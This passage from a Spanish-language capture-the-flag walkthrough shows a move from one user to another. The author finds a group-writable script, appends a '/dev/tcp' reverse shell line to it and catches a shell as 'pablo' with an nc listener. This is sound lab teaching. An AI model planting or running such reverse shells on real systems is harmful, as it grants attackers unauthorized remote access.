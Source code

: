 Si listamos la carpeta `.local` veremos lo siguiente:

```
total 16
drwxrwxr-x 3 veronica veronica 4096 Apr 18 11:13 .
drwxr-xrwx 1 veronica veronica 4096 Apr 18 16:35 ..
-rwxrwx--x 1 pablo    taller    121 Apr 17 17:23 script-h.sh
drwx------ 3 veronica veronica 4096 Apr 18 10:47 share
```

Vemos que tanto el usuario `pablo` como el grupo `taller` pueden editar el script, si vemos a que grupos pertenecemos, veremos lo siguiente:

```shell
id
```

Info:

```
uid=1001(veronica) gid=1001(veronica) groups=1001(veronica),100(users),1004(taller)
```

Veremos que somos de dicho `grupo` por lo que podremos editar el `script`, vamos hacer lo siguiente para generar una `reverse shell`.

```shell
cd /home/veronica/.local/
nano script-h.sh

#Dentro del nano
#!/bin/bash

.............................<RESTO DE CODIGO>...................................

sh -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Lo guardamos y rapidamente nos ponemos a la escucha.

```shell
nc -lvnp <PORT>
```

Ahora solo tendremos que esperar un rato, despues de esperar, si vamos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.177.129] from (UNKNOWN) [172.17.0.2] 40728
bash: cannot set terminal process group (9878): Inappropriate ioctl for device
bash: no job control in this shell
pablo@31379bb8b4c2:~$ whoami
whoami
pablo
```

Veremos que somos el usuario `pablo` por lo que vamos a sanitizar la `shell`.
